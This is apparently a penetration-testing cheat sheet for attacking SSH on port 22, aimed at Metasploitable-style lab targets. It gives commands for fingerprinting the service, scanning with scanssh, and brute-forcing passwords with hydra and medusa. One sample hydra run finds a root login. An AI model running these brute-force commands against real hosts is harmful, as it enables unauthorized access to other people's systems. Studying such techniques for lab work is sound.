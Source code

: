 ### SSH port 22
https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits

* Log in as user
```
$ ssh -l [user] [IP_ADDRESS]
```

+ Fingerprint server  
  ```
  telnet ip_address 22
  ```
  - SSH package version - Might be able to find the OS and version.
  - SSH key fingerprint - Has the key been re-used somewhere (Another machine? Same machine, just another port/service?)
  - SSH banner - Any text (if at all) before the password prompt (often get legal warnings about connecting to it)


+ Check the key presented, is the same as others? Is there more than one key presented? https://github.com/rapid7/ssh-badkeys

- scanssh  
  ```
  # scanssh -p -r -e excludes random(no.)/Network_ID/Subnet_Mask
  ```

+ SSH Password guessing

  - Use usernames gathered elsewhere.
  - Use passwords gathered.

  - Test user names gathered earlier, with empty, echo, reverse password  
  ```
  # hydra -e nsr -L users.txt [ip] ssh
  # hydra -L users.txt -P "THE_PASSWORD" ssh://[IP_ADDRESS]
  ```

  OR 'root' user with password file
  ```
  # hydra -l root -P password-file.txt 192.168.11.219 ssh
  Hydra v7.4.2 (c)2012 by van Hauser/THC & David Maciejak
  Hydra (http://www.thc.org/thc-hydra) starting at 2013-04-23 15:54:04 [DATA] 16 tasks, 1 server, 332 login tries (l:1/p:332), ~20 tries per task [DATA] attacking service ssh on port 22
  [ERROR] ssh protocol error
  [ERROR] ssh protocol error
  [22][ssh] host: 192.168.11.219 login: root password: toor
  1 of 1 target successfully completed, 1 valid password found
  ```

  OR using medusa:
  ```
  # medusa -h 192.168.56.103 -U users.txt -P /usr/share/wordlists/rockyou.txt -e ns -f -M ssh > medusa_output.txt
  ```

+ SSH Client programs
  - tunnelier
  - winsshd
  - putty
  - winscp

+ Examine configuration files
  - ssh_config
  - sshd_config
  - authorized_keys
  - ssh_known_hosts
  - .shosts
